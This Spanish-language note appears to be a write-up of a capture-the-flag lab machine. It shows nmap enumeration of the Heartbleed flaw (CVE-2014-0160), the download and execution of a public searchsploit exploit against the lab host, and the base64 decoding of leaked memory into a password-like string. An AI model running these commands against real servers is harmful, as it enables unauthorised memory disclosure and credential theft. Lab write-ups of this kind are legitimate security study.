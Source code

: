 #hearthbleed #nmapscripts #CVE-2014-0160 #hearthbleed 

--------
Esta vulnerabilidad tambien es conocida como hearthbleed

------
## [[NMAP Scripts]]

Como es una version vieja de apache, seguramente el openssl es una version vieja y por eso enumeramos por hearthbleed
   ```bash
   nmap --script ssl-heartbleed -p80,443,22 10.10.10.79
   ```
   ![[Valentine10.png]]
Es vulnerable a hearthbleed

--------
# [[searchsploit]]

Buscamos algun exploit para [[CVE-2014-0160]] con el comando searchsploit ``searchsploit heartbleed``, luego encontramos este exploit que nos interesa y lo descargamos con `searchsploit -m multiple/remote/32764.py`
   ![[Valentine11.png]]
Ahora lo vamos a ejecutar con `python2.7 32764.py 10.10.10.79 -p 443`

   ![[Valentine12.png]]
Nos da este codigo que al parecer esta en base 64 *aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg\==*

Ahora con [[echo]] y [[base64]] vamos a usar el comando `echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d` para decodificarlo
   ![[Valentine13.png]]
Y vemos que obtenemos como resultado *heartbleedbelievethehype*